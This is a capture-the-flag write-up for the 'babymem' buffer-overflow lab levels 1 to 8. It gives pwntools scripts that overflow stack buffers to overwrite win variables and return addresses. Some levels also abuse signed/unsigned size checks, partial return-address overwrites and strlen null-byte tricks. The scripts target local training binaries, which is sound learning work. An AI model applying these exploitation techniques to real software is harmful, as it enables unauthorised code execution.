 # Pwn Beby mem

## 1.0 - 1.1
```py
from pwn import *                       
                                        
padding = b'A' * 176                    
payload = padding + p64(0x2dbba028)     
                                        
p = process('/challenge/babymem_level1.0')         
p.recvuntil('size:')                    
p.sendline('120')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```

## 2.0 2.1
```py
from pwn import *                       
                                        
padding = b'A' * 528                    
payload = padding + p64(0xdeadbeef)     
                                        
p = process('/challenge/babymem_level2.0')         
p.recvuntil('size:')                    
p.sendline('530')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```
Task: You can make this variable be non-zero by overflowing the input buffer.
The "win" variable is stored at 0x55c46aa5e8c0, 528 bytes after the start of your input buffer.

## 3.0 
```py
from pwn import *                       
                                        
padding = b'A' * 104                   
payload = padding + p64(0x4018d1) # win address
                                        
p = process('/challenge/babymem_level3.0')         
p.recvuntil('size:')                    
p.sendline('120')                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```
Task:
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffe6e8fec28, 104 bytes after the start of your input buffer.
That means that you will need to input at least 112 bytes (73 to fill the buffer,
31 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

## 3.1
used gdb to locate buffer size from `challange` and `win` address

## 4.0
Task: In this level, there is no "win" variable.
You will need to force the program to execute the win() function
by directly overflowing into the stored return address back to main,
which is stored at 0x7ffe4e15aa08, 88 bytes after the start of your input buffer.
That means that you will need to input at least 96 bytes (66 to fill the buffer,
22 to fill other stuff stored between the buffer and the return address,
and 8 that will overwrite the return address).

```py
from pwn import *                       
                                        
padding = b'A' * 88                   
payload = padding + p64(0x401818)     
                                        
p = process('/challenge/babymem_level4.0')         
p.recvuntil('size:')                    
p.sendline('-66')  #jns jump if not signed (positive)                       
                                       
p.recvuntil('bytes)!')                  
p.send(payload)                         
p.interactive() 
```

## 4.1 
search jump address to `win`

## 5.0
You will want to overwrite the return value from challenge()
(located at 0x7ffd1d851b88, 88 bytes past the start of the input buffer)
with 0x401ace, which is the address of the win() function.
This will cause challenge() to return directly into the win() function,
which will in turn give you the flag.
Keep in mind that you will need to write the address of the win() function
in little-endian (bytes backwards) so that it is interpreted properly.

NOTE: unsigned vs signed ints

```py
from pwn import *                       
                                        
padding = b'A' * 88  # find it with gdb on ret challenge               
payload = padding + p64(0x401ace)    

p = process('/challenge/babymem_level5.0')         
p.recvuntil('records to send:')    
num = int("0x80000000",0)     
tosend = f'{str(num)}\n'           
p.sendline(tosend.encode())                       
                                       
p.recvuntil('payload record:')     
p.send('2\n') 

    
p.send(payload)                         
p.interactive() 

```

## 6.0 - 6.1
Task: search `win_a...` function address using gdb `info func`, find `print` address and jump to it 

## 7.0
Task:Overwriting the entire return address is fine when we know
the whole address, but here, we only really know the last three nibbles.
These nibbles never change, because pages are aligned to 0x1000.
This gives us a workaround: we can overwrite the least significant byte
of the saved return address, which we can know from debugging the binary,
to retarget the return to main to any instruction that shares the other 7 bytes.
Since that last byte will be constant between executions (due to page alignment),
this will always work.

Note: try until the number you put pops out
```py
from pwn import *                       
                                        
padding = b'B' * 136            
payload = padding + b"\x90\x24"    #\x90 = +28

p = process('/challenge/babymem_level7.0')         
p.read()
p.sendline('144')
p.send(payload)                         
p.interactive() 
```
## 7.1 
find `win_a...` address and buffer size, try until flag pops out
Magic number = 2147483648

## 8.0
Task:
So how do you pass the check? There *is* a way, and we will cover it later,
but for now, we will simply bypass it! You can overwrite the return address
with *any* value (as long as it points to executable code), not just the start
of functions. Let's overwrite past the token check in win!

Like 7.0 but but bypass unsigned comparison 

```py

from pwn import *                       
                                        
padding = b'B' * 45            
payload = padding + b"\x00"+b'A'*42 + b"\x10\xBA"    

p = process('/challenge/babymem_level8.0')         
p.read()
p.sendline('2147483648')
p.send(payload)                         
p.interactive() 
```
hint: man strlen

## 8.1 
Note: find buffer size and win_a.. address and play with it